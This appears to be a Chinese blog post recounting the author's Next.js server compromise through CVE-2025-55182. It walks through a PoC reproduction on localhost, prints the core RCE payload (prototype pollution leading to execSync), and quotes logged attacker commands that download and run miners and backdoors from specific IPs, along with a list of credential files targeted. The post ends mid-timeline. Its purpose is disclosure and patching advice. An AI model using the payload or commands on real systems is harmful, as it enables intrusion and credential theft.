## 那个让我后怕的早晨

12 月 10 号，我还在发朋友圈说因为 Next.js(准确的说应该是 **React**) 的漏洞需要升级 Dify, 不过因为时间的原因只是将几个受影响的 Next 服务下架, 并没有进行升级。



今天有点时间打算全部升级一下, 结果才发现——我其实在 12 月 5 号就已经被攻击了。



---

这是我第一次因为第三方服务的漏洞遭遇真实攻击。虽然最终没有造成更严重的后果，但从"被动挨打"到"定位证据、完成处置"，整个过程给了我巨大的冲击。那种感觉，就像你早上醒来发现家里被翻了个遍，但你还不知道丢了什么。

所以，我决定把这次被攻击的全过程记录下来——一方面梳理教训、为后续安全防控留出可复盘的参考，另一方面也提醒其他 Next.js 用户这次事故的严重性，尽快完成升级。

相关漏洞信息：
- [Next.js 官方公告](https://nextjs.org/blog/CVE-2025-66478)
- [Critical Security Vulnerability in React Server Components](https://react.dev/blog/2025/12/03/critical-security-vulnerability-in-react-server-components#update-instructions)
- [Denial of Service and Source Code Exposure in React Server Components](https://react.dev/blog/2025/12/11/denial-of-service-and-source-code-exposure-in-react-server-components)
- [CVE-2025-55182](https://www.cve.org/CVERecord?id=CVE-2025-55182)

---

## 漏洞是怎么来的？一个"完美"的 10 分漏洞

### React 19 的"里程碑"

2024 年年底，React 19 发布了。最重磅的更新是 **React Server Components (RSC)**，一个全新的服务端渲染机制。这是前端开发的一个重大突破。在 Vercel 的推动下，React 彻底押注了 SSR 的技术路线。

现在看来，这个"里程碑"更像是一个"里程悲"。

### 那个改变一切的报告

2025 年 11 月 29 日，来自新西兰的安全专家 **Lachlan Davidson** 向 React 团队提交了一个 [bug 报告](https://github.com/lachlan2k/React2Shell-CVE-2025-55182-original-poc)。他在 HTTP 请求里构建了一个精心设计的 JSON payload，然后——成功了。React Server Components 的服务器执行了一段代码里完全没有的命令。

根据 [Next.js 官方安全公告](https://nextjs.org/blog/CVE-2025-66478)，这个漏洞被评级为 **CVSS 10.0**，这是最严重的漏洞级别。漏洞影响所有使用 App Router 的 Next.js 15.x 和 16.x 版本，以及 Next.js 14.3.0-canary.77 及之后的 canary 版本。

如果只是借用服务器资源跑一下 `console.log`，那最多给个 6 分。但这个漏洞为什么值 10 分？因为**不管你在 payload 里写什么，只要格式正确，Next.js 的 RSC 都会执行**。

你可以调用 Node.js 的 `process` 模块，在服务器上执行 bash 命令。如果后端用 root 账号部署（虽然不推荐，但很多人就是这么干的），那就更刺激了——可以直接给服务器一键扫荡。

不想搞破坏？只想窃取机密？也很容易：
- 用 `fs` 模块读取任意系统文件
- 用 `http`/`https` 模块把文件内容发送到自己的服务器
- 懒得搭服务器？把内容塞到 Error 里抛出，服务器会用 500 报错把内容送回来
- 想更隐蔽？让 HTTP 请求正常返回，把机密塞到返回的 header 里

而且这漏洞非常 **容易** 复现, 这就是为什么这个漏洞能拿到 10 分满分的原因。

## 喜闻乐见的复现环节

### 环境准备

为了复现这个漏洞，我们需要搭建一个包含漏洞的 Next.js 环境。根据 [GitHub PoC 项目](https://github.com/msanft/CVE-2025-55182) 的说明，我们需要使用 Next.js 16.0.6 版本（这是存在漏洞的版本）。

**重要警告**：以下操作仅用于安全研究和教育目的，请务必在隔离的测试环境中进行，不要在生产环境或任何包含敏感数据的服务器上执行。

#### 步骤 1：创建测试项目

首先，创建一个新的 Next.js 项目并安装指定版本：

```bash
# 创建新的 Next.js 项目
npx create-next-app@16.0.6 test-vulnerable-app --typescript --tailwind --app

# 进入项目目录
cd test-vulnerable-app

# 确保使用漏洞版本
npm install next@16.0.6 react@19.2.0 react-dom@19.2.0
```

或者，你也可以直接使用 PoC 项目提供的测试服务器：

```bash
# 克隆 PoC 项目
git clone https://github.com/msanft/CVE-2025-55182.git
cd CVE-2025-55182/test-server

# 安装依赖（项目已配置 Next.js 16.0.6）
npm install
```

#### 步骤 2：启动测试服务器

启动 Next.js 开发服务器：

```bash
npm run dev
```

服务器会在 `http://localhost:3000` 启动。

### 执行 PoC

#### 步骤 3：下载 PoC 脚本

PoC 项目提供了一个 Python 脚本 `poc.py`，可以直接用于复现漏洞。你可以从项目仓库下载：

```bash
# 如果还没有克隆项目，可以单独下载 PoC 脚本
curl -O https://raw.githubusercontent.com/msanft/CVE-2025-55182/main/poc.py
```

PoC 脚本的核心逻辑是构造一个精心设计的 FormData payload，通过 `Next-Action` header 触发 React Server Components 的漏洞。

#### 步骤 4：执行攻击

确保测试服务器正在运行，然后执行 PoC 脚本：

```bash
# 基本用法：执行 id 命令（显示当前用户信息）
python3 poc.py http://localhost:3000 id

# 执行其他命令（例如：列出当前目录文件）
python3 poc.py http://localhost:3000 "ls -la"

# 执行系统命令（例如：查看环境变量）
python3 poc.py http://localhost:3000 "env | head -20"
```

**注意**：如果系统没有安装 Python 的 `requests` 库，需要先安装：

```bash
pip3 install requests
```

或者使用 pipx 运行（脚本支持 PEP 723 格式）：

```bash
pipx run https://raw.githubusercontent.com/msanft/CVE-2025-55182/main/poc.py http://localhost:3000 id
```

#### 步骤 5：验证漏洞

如果漏洞存在，PoC 脚本会：

1. **发送恶意请求**：构造包含精心设计的 chunk 数据的 FormData，通过 `Next-Action: x` header 触发漏洞
2. **执行命令**：服务器会执行 payload 中指定的命令
3. **返回结果**：命令执行结果会通过错误信息返回（PoC 脚本使用了 `NEXT_REDIRECT` 错误来传递命令输出）

成功的攻击会返回 HTTP 状态码和包含命令执行结果的响应。例如，执行 `ls -al` 命令可能会返回类似以下的内容：



整个复现过程丝滑流畅, 5 分钟都要不到, 你就说这个漏洞值不值 **10 分**.

---

### PoC 工作原理

PoC 脚本的核心 payload 构造如下：

```python
crafted_chunk = {
    "then": "$1:__proto__:then",
    "status": "resolved_model",
    "reason": -1,
    "value": '{"then": "$B0"}',
    "_response": {
        "_prefix": f"var res = process.mainModule.require('child_process').execSync('{EXECUTABLE}',{'timeout':5000}).toString().trim(); throw Object.assign(new Error('NEXT_REDIRECT'), {{digest:`${{res}}`}});",
        "_formData": {
            "get": "$1:constructor:constructor",
        },
    },
}

files = {
    "0": (None, json.dumps(crafted_chunk)),
    "1": (None, '"$@0"'),
}
```

这个 payload 利用了以下关键点：

1. **原型链污染**：通过 `$1:__proto__:then` 访问 `Chunk.prototype.then`
2. **状态伪造**：设置 `status: "resolved_model"` 触发 `initializeModelChunk`
3. **Blob 处理漏洞**：使用 `$B0` 前缀触发 blob 数据处理逻辑
4. **函数构造器调用**：通过 `_formData.get` 指向 `Function` 构造器，`_prefix` 包含要执行的代码
5. **绕过验证**：在 `getActionModIdOrError` 验证之前就执行了代码

### 验证修复

要验证漏洞是否已修复，可以升级到修复版本：

```bash
# 升级到修复版本
npm install next@16.0.7

# 重启服务器
npm run dev

# 再次执行 PoC（应该失败）
python3 poc.py http://localhost:3000 id
```

修复后的版本会拒绝恶意请求，PoC 脚本将无法执行命令。

---

## 漏洞的技术原理：一个"信任"的问题

React 团队为了延缓黑客的速度，在 2025 年 12 月 13 日发布通告和补丁时，没有解释任何技术细节，还特意混入了将近 1000 行其他代码，让人更难找到漏洞源头。

但 React 是开源项目，一切都是明牌。我花了几小时把补丁、涉及的文件和上游都看了一遍，基本上捋清了整个逻辑链条。



简单来说，React Server Components 在收到前端请求时会进入 `recursive` RSC 的逻辑，生成一个类似 AST 的数据结构。`RSC Model Stream` 函数负责识别这个数据结构，根据数据的第一个和第二个字符判断它属于哪种数据类型：
- `$q` 开头的是 Map
- `$w` 开头的是 Set  
- `$K` 开头的是 FormData
- `$a` 开头的是一个 Promise，一个会异步执行的 JavaScript 命令

特殊数据会被打包成独立 chunk，状态设置为 `pending`，等待后续的数据流完整传输到位后，chunk 的状态会被更新为 `module`，代表它可以执行了。

执行前需要先通过 `RSC Module String` 函数对内容再做一次解析，把它从 binary 转换成正确的 JavaScript 结构。这里有个特殊情况：`$b` 是 Blob，因为 Blob 没有需要转换的，所以以 `$b` 开头的数据会跳过 constructor 步骤，直接执行。

攻击者就是利用了这个机制。他们通过精心构造的 JSON payload：
1. 将 payload 转换成 stream，再转换成 buffer
2. 让 React Parser 读到一个长得跟真实 RSC 数据一模一样的东西
3. 通过 `$a` 标记告诉系统它是要被执行的 Promise
4. 设置 `status=resolved module`，绕开不存在的 pending 状态，直接进入执行流程
5. 使用 `$b` (Blob) 绕过 constructor 步骤直接执行
6. 通过精准的 FormData 数据处理代码，让 Parser 把 `__prefix` 里的文本当做 JavaScript 的内容直接执行

**为什么这么简单，一个 JSON 就能伪装成功？**

因为 React 从头到尾 **没有验证** 手上的 AST 数据是不是 RSC 自己生成的。理论上你能在请求内容里伪装任何东西，它都会全盘接受。

这就是这个漏洞能拿下 10 分满分的根本原因——它违背了后端开发最基本的原则：

**永远不要相信前端传来的任何东西**。

### Next.js 的"隐藏"问题

这里有个很多人会忽略的点。在 React 上报漏洞的同一天，Next.js 也向 CVE 提交了一个漏洞报告。但 CVE 拒收了，把它标记为 duplicate，因为报告内容和 React 的完全一致。

很多人会误以为：如果我的项目里同时安装了 React 和 Next.js，我只需要更新 React 的补丁就可以了。

**这是错误的！**

因为 Next.js 不像其他框架那样纯粹把 React 当做一个依赖，它是把 React 的全部源代码**复制进自己的代码库里**。如果你的项目同时安装了 React 和 Next.js，你有两份 React 代码：
- 一份是独立的 React 依赖
- 另一份藏在 Next.js 的 bundle 里

如果你用自动化漏洞修复流程，可能会漏掉 Next.js 的补丁，因为它被 CVE 拒绝了。所以务必记得**手动把 Next.js 更新一下**。

根据官方公告，修复版本包括：
- 15.0.5, 15.1.9, 15.2.6, 15.3.6, 15.4.8, 15.5.7
- 16.0.7
- 15.6.0-canary.58（canary 版本）
- 16.1.0-canary.12（canary 版本）

官方还提供了一个自动修复工具：`npx fix-react2shell-next`，可以帮你检查版本并自动升级到修复版本。



这个修复工具只能升级 next.js 版本, 而 React 版本并未做任何处理, [React 服务器组件中的关键安全漏洞](https://react.dev/blog/2025/12/03/critical-security-vulnerability-in-react-server-components#update-instructions) 中提示[版本19.0.1、19.1.2 ](https://github.com/facebook/react/releases/tag/v19.0.1)和 [19.2.1 ](https://github.com/facebook/react/releases/tag/v19.1.2)中已引入修复程序, 但是在 12 月 11 日又发布了后续的补丁: [React 服务器组件中的拒绝服务和源代码泄露](https://react.dev/blog/2025/12/11/denial-of-service-and-source-code-exposure-in-react-server-components), 所以需要手动将 React 升级到最新版:

**重要提醒**：如果应用在 12 月 4 日下午 1:00 之前在线且未打补丁，官方强烈建议轮换所有密钥，从最关键的密钥开始。

## 我的服务器被攻击了：一个真实的故事

### 发现异常：那些奇怪的错误日志

12 月 12 号，我正在本地升级 Next.js，在部署到服务器的时候, 发现了一些奇怪的错误日志。一开始我没太在意，以为是升级过程中的小问题。但当我仔细看 `error.log` 的时候，我意识到事情不对了。



日志里出现了很多奇怪的命令执行记录：
- `wget http://216.158.232.43:12000/sex.sh && bash sex.sh`
- `powershell -enc ...`（虽然我的服务器是 macOS，没有 PowerShell）
- 尝试读取 `/etc/passwd`、`~/.ssh/id_rsa` 等敏感文件

我立刻意识到：我的服务器被攻击了。

### 攻击时间线：一个精心策划的入侵

通过分析日志，我梳理出了完整的攻击时间线：

#### **12月04日 13:14** - 攻击者首次尝试

出现了 `Cannot read properties of undefined (reading 'workers')` 错误。现在看来，这是攻击者在试探我的服务器，看看是否使用了 React Server Components。

#### **12月05日 10:38** - 开始出现 `Malformed part header` 错误

攻击者开始构造恶意请求，试图触发漏洞。这个时间点很有意思——漏洞是在 12 月 3 日公布的，攻击者在第二天就开始大规模扫描和攻击了。

#### **12月05日 11:27** - **第一次成功执行命令**

攻击者通过漏洞成功执行了命令，下载并尝试执行挖矿脚本 `sex.sh`。我看到日志里显示：

```bash
wget http://216.158.232.43:12000/sex.sh && bash sex.sh
```

说明其已经具备在服务器上执行任意命令的能力。这一行为意味着服务器已被成功入侵，存在被进一步控制和横向扩展的风险。

#### **12月05日 14:40** - 攻击者尝试执行 PowerShell 命令

虽然我的服务器是 macOS，这个命令失败了，但这说明攻击者在使用自动化工具，针对不同系统进行攻击。这种"广撒网"的策略，说明攻击者可能已经控制了大量的服务器。

#### **12月05日 18:28** - nginx 的恶意二进制文件

日志显示：

```bash
wget -O /tmp/nginx3 http://res.qiqigece.top/nginx1
chmod 777 /tmp/nginx3
/tmp/nginx3
```

但失败了，因为下载的是 Linux x64 版本，无法在我的 macOS ARM64 系统上运行。

根据安全报告，这是一个 DDoS 攻击木马类的恶意程序，可以把我的服务器变成太美的 “肉鸡”，参与对其他服务器的 DDoS 攻击。




#### **12月06日 06:11** - 更新的挖矿脚本 `sex.sh.1`

这次脚本更完善，包含了自动安装、systemd 服务配置等功能。这说明攻击者在不断优化他们的攻击工具。



#### **12月08日 04:08** - **大规模信息窃取尝试**。

攻击者尝试读取了大量敏感文件：

- SSH 私钥（`~/.ssh/id_rsa`）

- AWS 凭证（`~/.aws/credentials`）

- Kubernetes 配置（`~/.kube/config`）

- Docker 配置（`~/.docker/config`）

- Google Cloud 凭证（`~/.config/gcloud/credentials.db`）

- Git 凭证（`~/.git-credentials`）

- 环境变量文件（`.env`、`.env.local` 等）

- 在当前目录下生成了一个 `mini-m2_20251206_043719.txt` 文件, 其中包含了 macOS 的大量敏感信息:
  

  

  

幸运的是，由于 macOS 的权限保护，很多文件读取失败了。但攻击者成功读取了 `/etc/passwd` 文件，获取了系统用户信息。从日志中可以看到，攻击者甚至尝试读取了 `/etc` 目录下的所有文件列表，包括 `passwd`、`hosts`、`ssh` 等敏感配置文件。

#### **12月08日 07:46** - **下载后门但是执行失败**



```bash
wget -qO /tmp/443nb64 http://146.88.129.138:5511/443nb64
```
- `wget`：下载工具
- `-q`：静默模式，不显示下载进度
- `-O /tmp/443nb64`：指定输出文件路径为 `/tmp/443nb64`
- `http://146.88.129.138:5511/443nb64`：攻击者的 C2（命令与控制）服务器地址
  - IP：`146.88.129.138`
  - 端口：`5511`（非标准端口，可能用于绕过防火墙）
  - 文件名：`443nb64`（随机命名，避免被检测）

```bash
rm -f /tmp/443nb64
```
- `-f`：强制删除，即使文件不存在也不报错
- 删除恶意文件，可以让文件运行在 Linux 的共享内存文件系统 `/dev/shm` 中, 让 `ls`、`find` 等命令找不到它，但其实进程仍然在继续运行，增加了取证排查的难度。

庆幸的是我的服务器是 macOS ARM64（Apple Silicon）, 无法执行 Linux 二进制文件:

```bash
/bin/sh: /tmp/443nb64: cannot execute binary file
```

#### **12月08日 11:41** - **又一轮攻击**

